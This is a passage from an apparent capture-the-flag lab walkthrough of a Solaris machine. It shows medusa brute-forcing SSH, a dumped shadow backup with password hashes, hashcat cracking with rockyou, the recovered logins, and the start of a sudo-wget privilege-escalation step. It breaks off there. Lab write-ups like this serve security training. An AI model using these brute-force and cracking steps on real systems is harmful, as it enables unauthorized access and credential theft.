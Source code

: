 And now we can use the passwords.txt list we created with the tool medusa to do a brute-force attack on SSH:
```shell
medusa -h 10.129.144.138 -n 22022 -u sammy -P passwords.txt -M ssh
medusa -h 10.129.144.138 -n 22022 -u sunny -P passwords.txt -M ssh
```
Nice! We got valid credentials for the user sunny:
```shell
ACCOUNT FOUND: [ssh] Host: 10.129.144.138 User: sunny Password: sunday [SUCCESS]
```
Now we can get access as sunny using SSH:
```shell
ssh -p 22022 sunny@10.129.144.138
```
### Backup folder containing /shadow copy
Enumerating the folders, we found a backup containing users and hashes:
```shell
cat /backup/shadow.backup

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
We can use hashcat to try to crack these hashes:
```shell
cat hashes.txt

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3
```

```shell
hashcat -m 7400 hashes.txt /usr/share/wordlists/rockyou.txt
```
We managed to crack the password of sammy:
```shell
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```
Giving us the following credentials:
```shell
sammy:cooldude!
```
We can use these credentials to get access as sammy using SSH and get the user.txt flag:
```shell
ssh -p 22022 sammy@10.129.144.138
```
### User Flag
```shell
-bash-5.1$ ls
user.txt
-bash-5.1$ cat user.txt
```
# Privilege Escalation
### sudo -l and GTFOBins for wget
If we run sudo -l, we will get the following message telling us that the user sammy can run wget as sudo without password:
```shell
```